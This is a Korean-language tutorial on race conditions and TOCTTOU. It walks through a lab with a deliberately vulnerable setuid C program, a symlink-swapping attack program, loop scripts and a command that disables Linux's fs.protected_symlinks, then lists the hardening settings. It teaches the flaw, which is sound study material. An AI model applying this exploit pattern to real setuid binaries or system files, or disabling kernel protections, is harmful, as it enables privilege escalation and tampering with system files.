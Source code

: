 <<<<<<< HEAD
# **Race Condition**
=======
## **Race Condition**
>>>>>>> c3d05ecfa68cb5583b8596a11d452d2b833b37b4

Race condition은 프로세스 또는 스레드 간 자원을 사용하기 위한 경쟁을 뜻한다. 이러한 경쟁은 프로세스 또는 스레드의 순서 또는 타이밍에 따라 발생한다.  
Race condition은 프로세스, 스레드에서 사용되는 자원이 공유된 상태일 경우 자주 발생한다.

### **TOCTTOU(Time of check to time of use)**

TOCTTOU는 소프트웨어에서 리소스의 상태를 확인하는 시간과 사용하는 시간 사이에 리소스를 변경하여 리소스의 상태 확인 결과를 우회하는 방법.

## **Proof of Concept**

가짜 /etc/passwd 파일을 생성하고 실제 /etc/passwd와 같은 설정을 적용한다.

```
root@bs-virtual-machine:~/pwnable/Race_condition# mkdir etc
root@bs-virtual-machine:~/pwnable/Race_condition# ls -al
total 12
drwxr-xr-x 3 root root 4096 11월 18 20:29 .
drwxr-xr-x 4 root root 4096 11월 18 20:29 ..
drwxr-xr-x 2 root root 4096 11월 18 20:29 etc
root@bs-virtual-machine:~/pwnable/Race_condition# cd etc
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls
root@bs-virtual-machine:~/pwnable/Race_condition/etc# echo Only Root! > passwd
root@bs-virtual-machine:~/pwnable/Race_condition/etc# cat passwd 
Only Root!
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls -al
total 12
drwxr-xr-x 2 root root 4096 11월 18 20:30 .
drwxr-xr-x 3 root root 4096 11월 18 20:29 ..
-rw-r--r-- 1 root root   11 11월 18 20:30 passwd
```

취약한 프로그램을 생성한다.

```c
// Vuln Code
// gcc vuln.c -o vuln ; chown root:root vuln ; chmod 4755 vuln 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
  
void main()
{
    int fd;
    char *file = "./file";
    char buffer[]="Success!! Race Condition : Attacker \n";
 
    if (!access(file, W_OK)) {
        printf("Able to open file %s.\n",file);
        fd = open(file, O_WRONLY);
        write(fd, buffer, sizeof(buffer));
        close(fd);
    }else{
        //printf("Unable to open file %s.\n",file);
    }
}
```

access() 함수를 이용하여 쓰기 가능한지 확인하고 쓰기가 가능하면 open(), write(), open(), write() 함수를 이용하여 파일을 읽고 내용을 작성한다.  

access()와 open()이 file handler 대신 파일 이름을 사용하여 access() 함수에 전달된 파일이 open() 함수에 전달될 파일과 같을 수 있다는 보장이 없다. 공격자가 access() 함수 호출 후 심볼릭 링크로 파일을 변경하면 open() 함수에 의해 다른 파일을 수정할 수 있다.

file을 unlink한 후 file에 ./etc/passwd 파일을 링크해주는 공격 프로그램을 작성한다.

```c
// gcc attack.c -o attack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
void main()
{
    unlink("file");
    symlink("./etc/passwd","file");
}
```

./vuln 프로그램을 계속 실행시켜주는 스크립트를 작성한다.

```shell
#!/bin/bash
while :
do
    ./vuln
done
```

./ect/passwd를 계속 비교하면서 변경된 경우 "Success"를 출력하는 스크립트를 작성한다.

```shell
#!/bin/bash
CHECK_FILE="ls -l ./etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./attack
    new=$($CHECK_FILE)
done
echo "Success! The passwd file has been changed"
```

리눅스 커널의 보안 기술을 해제한다.

```shell
bs@bs-virtual-machine:~/race_condition$ sudo sysctl -w fs.protected_symlinks=0
fs.protected_symlinks = 0
```

## **Exploit**

Terminal1으로 run.sh 스크립트를 통해 ./vuln 프로그램을 지속적으로 실행한다.

```
bs@bs-virtual-machine:~/race_condition$ echo > file
bs@bs-virtual-machine:~/race_condition$ bash run.sh 
Able to open file ./file.
Able to open file ./file.
...
```

Terminal2에 race.sh 스크립트를 통해 ./attack 프로그램을 ./etc/passwd가 변조될 때까지 실행시킨 다음 ./etc/passwd이 변조된 것을 확인한다.

```
bs@bs-virtual-machine:~/race_condition$ bash race.sh 
Success! The passwd file has been changed
bs@bs-virtual-machine:~/race_condition$ cat ./etc/passwd 
Success!! Race Condition : Attacker
```

### **File system hardening**

리눅스 커널은 프로그램(tmp-races, TOCTOU)의 안전하지 않은 파일 시스템 액세스에 대한 취약성에 대한 위협을 완하하기 위해 해당 보안 기술을 적용하였다.

```
Ubuntu 12.04
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
Ubuntu 16.04
$ sudo sysctl -w fs.protected_symlinks=1
```

**References**  
<https://www.lazenca.net/display/TEC/09.Race+condition>
